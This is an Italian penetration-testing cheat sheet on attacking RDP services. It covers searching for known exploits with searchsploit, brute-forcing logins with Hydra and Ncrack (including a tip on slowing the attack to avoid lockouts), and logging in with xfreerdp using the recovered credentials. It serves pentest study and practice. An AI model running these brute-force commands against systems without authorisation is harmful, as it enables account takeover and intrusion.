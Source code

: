 ## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <rdp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Bruteforce 
⚠️ Attenzione: il brute-force su RDP può attivare sistemi di difesa (lockout, log, allarmi).

### Hydra
```bash
hydra -t 4 -V -f -L <userList> -P <passwordList> rdp://<IP> -s <PORT>
```
- `-L` → file con la lista utenti  
- `-P` → file con la lista password  
- `-s` → porta RDP (se diversa da 3389)  
- `-t` → numero massimo di thread (es. `-t 4` per rallentare l'attacco)

### Ncrack
```bash
ncrack -p 3389 -u <user> -P <wordlist> <IP>
```
Una volta ottenute credenziali valide possiamo usare un client open source per il protocollo RDP per connetterci alla GUI usando le credenziali. 
```bash
xfreerdp /u:<username> /p:<password> /v:<IP>:<PORT>
```
> Durante la connessione potrebbe comparire un avviso sul certificato non verificato: accettare con `YES`.

---
